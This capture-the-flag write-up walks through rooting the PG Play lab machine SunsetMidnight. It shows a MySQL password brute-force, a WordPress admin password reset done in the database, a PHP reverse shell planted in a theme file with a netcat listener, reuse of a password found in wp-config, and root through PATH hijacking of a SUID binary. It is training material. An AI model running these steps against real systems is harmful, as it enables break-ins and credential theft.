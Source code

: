 # PG Play - SunsetMidnight

#### Ip: 192.168.180.88
#### Name: SunsetMidnight
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ sudo nmap -p-  --min-rate 10000 192.168.180.88 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-13 11:03 CDT
Nmap scan report for 192.168.180.88
Host is up (0.068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 14
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, FoundRows, Support41Auth, LongColumnFlag, Speaks41ProtocolOld, SupportsCompression, ConnectWithDatabase, SupportsTransactions, DontAllowDatabaseTableColumn, ODBCClient, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, IgnoreSigpipes, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: RNm[`PQ&dJ$q1=|}~$4t
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.91 seconds
```

We can see from the Nmap results the site on port 80 is redirecting to http://sunset-midnight/, so lets go ahead and add that to our `/etc/hosts` file.

Now heading to the website we see it is running WordPress.

site.png

After enumerating HTTP for a bit and nit finding much, I decided to kick off password bruteforcing against Mysql on port 3306 using Hydra:

brute.png

Cool, Hydra found a working password. Lets login to the database with this:

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ mysql -h 192.168.180.88 -u root -probert
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 214
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress_db       |
+--------------------+
4 rows in set (0.082 sec)
```

After looking through the DB and not finding much of interest (I was unable to crack the Admin password) I decided to change the Admin password:

```text
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass = MD5('password') WHERE wp_users.user_login = "admin";;
Query OK, 1 row affected (0.069 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

We can now head to http://sunset-midnight/wp-admin/ and login to the WordPress site with admin:password.

login.png

### Exploitation

From here lets grab a copy of PentestMonkey's php-reverse-shell.php and overwrite a theme on the WP site.

First we'll need to update the IP and port fields with our correct information:

php.png

Then changing the theme to twentynineteen, I copied the malicious PHP code into the header.php file, and with a NetCat listener going navigating back to http://sunset-midnight to trigger the shell:

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.180.88] 35938
Linux midnight 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 13:12:09 up  2:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
midnight
```

From here I can grab the local.txt flag:

user_flag.png

### Privilege Escalation

Taking a look in `/var/www/html/wordpress` we can access the wp-config.php file, which has Jose's password:

cred.png

We can use the to `su jose` on the target:

```text
www-data@midnight:/var/www/html/wordpress$ su jose
Password: 
jose@midnight:/var/www/html/wordpress$ whoami
jose
```

From here I'll transfer over LinPEAS to help with enumerating a privilege escalation vector:

transfer.png

LinPEAS finds an interesting file with the SUID bit enabled:

lp.png

Looks like the file is an executable:

```text
night:/tmp$ file /usr/bin/status
/usr/bin/status: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0b60ab071f1d8a6295eedb7f6815e957f2936171, not stripped
```

Using strings we find that the executable is calling service but not using the absolute path. If we create our own service file and update the PATH, we may be able to exploit this:

```text
jose@midnight:/tmp$ touch service
jose@midnight:/tmp$ echo "/bin/sh" > service
jose@midnight:/tmp$ chmod +x ./service
jose@midnight:/tmp$ PATH=/tmp:$PATH
jose@midnight:/tmp$ /usr/bin/status
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)
```

Nice, that worked!

Now lets grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------------------